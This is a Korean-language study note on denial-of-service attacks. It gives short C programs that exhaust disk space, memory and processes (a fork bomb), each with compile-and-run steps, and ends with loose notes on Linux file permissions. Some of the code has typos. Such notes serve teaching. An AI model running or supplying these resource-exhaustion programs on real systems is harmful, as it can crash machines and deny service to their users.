 ## DoS (Denial of Service)

* 서비스 거부 공격
* 특정한 네트워크나 웹 리소스에 합법적인 유저가 접근하지 못하도록 방해하는 것



### 시스템 자원 고갈 공격



#### 디스크 자원 고갈 공격

* 

#### 리눅스 시스템에서 컴파일

**df-h**명령어로 디스크 저장공간 확인하기

```c
// /root/tempfile 을 '0777' 권한으로 생성 후 무한 루프 조건에서 1000바이트씩 계속해서 써 나가는 프로그램
#include<unistd.h>
#include<sys/file.h>
#define DATA_SIZE 1000

main(){
	int fd;
	char buf[DATA_SIZE];
	fd = creat("/root/tempfile",0777);
	while(1) write(fd, buf, sizeof((buf));
}
```

vi disk.c ➜ i ➜ 입력 ➜ esc ➜ shift + : ➜ wq ➜ gcc disk.c ➜ ./a.out



#### 메모리 자원 고갈 공격

* 디스크 고갈 공격보다 시스템 자원을 더 많이 차지

#### 리눅스 시스템에서 컴파일

**cat /proc/meminfo**명령어로 시스템의 메모리 상태 확인하기

```c
// malloc(메모리 동적 할당, memory allocation) 함수를 통해 메모리 할당만 계속해서 수행하는 프로그램
#include <stdio.h>
#include <stdilib.h>
#define BUFFER_SIZE 1000

main(){
    char *m;
    while(1)
        m=malloc(BUFFER_SIZE);
}
```

vi memory.c ➜ i ➜ 입력 ➜ esc ➜ shift + : ➜ wq ➜ gcc memory.c ➜ ./a.out



#### 프로세스 자원 고갈 공격

* 

**ps -ef**명령어로 시스템 프로세스 확인하기

```c
//fork() 함수를 사용하여 무한대로 자식 프로세스를 생성하는 프로그램
#include <unistd.h>
main(){
	while(1)
		fork();
	return (0);
}
```

vi process.c ➜ i ➜ 입력 ➜ esc ➜shift + : ➜ wq ➜ gcc process.c ➜  gcc -o process process.c ➜ ./process



<!--

실행파일

./a.out -> df -h

gcc -o disk disk.c / disk라는 이름으로 오브젝트 생성

rm disk

gcc -o disk.out disk.c







cat /proc/meminfo



logical error

퍼미션 허가

drwx|rwx|rwx

directory/읽기/쓰기/실행

directory/read/write/excute

소유자|그룹사용자|일반사용자



작업 관리자 -> 세부정보 (window)

top(리눅스)

ex)

-rwx|--r|rw-

7|1|6



DDoS Attack

분산 공격



파일의 퍼미션

rwx

2의 2승 2의 1승 2의 0승 => 7

소유자/그룹사용자/일반사용자

-->




